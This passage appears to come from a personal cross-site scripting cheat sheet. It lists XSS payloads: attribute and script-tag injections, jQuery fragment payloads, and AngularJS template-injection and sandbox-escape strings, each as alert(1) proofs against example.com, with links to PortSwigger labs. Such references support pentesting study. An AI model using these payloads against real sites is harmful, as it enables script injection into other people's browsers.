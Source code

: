 ### Others

```txt
" onmouseleave='alert(1)'">

javascript:alert(1)
\"-alert(1)//

/?q=&subparam=--><script>alert(1)</script>
/index.php#value='><script>alert(1)</script>
```

To find tags, events and payloads for XSS, we can see [Port Swigger's XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

<br />

## Payloads - JQuery

```txt
https://example.com/#<img src=1 onerror=alert(1)>
<iframe src="https://example.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

<br />

## Payloads - AngularJS

If you find **`<html ng-app>`**, **`<body ng-app>`** or **`<div ng-app>`** in the HTML source code, you may be able to abuse it by XSS.

```txt
https://example.com/?search={{$eval.constructor('alert(1)')()}}
https://example.com/?search={{$on.constructor('alert(1)')()}}
```

To perform XSS without **`$eval`** function and quotes, we might be able to take another approach.  
[This PortSwigger's lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings) provides the following payload. But sorry, I don’t understand how it works at the moment.

```bash
# toString() : Create a string without quotes.
# toString().constructor.prototype.charAt=[].join :  Override `charAt` function for all strings with `[].join`.
# [1]|orderBy:toString().constructor.fromCharCode(...) : Pass an array to the `orderBy` filter.
# 120,61,97,108,101,114,116,40,49,41 : It means `x=alert(1)` in decimal.
https://example.com/?q=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

### AngularJS and CSP (Content Security Policy)

Reference: [PortSwigger's lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)
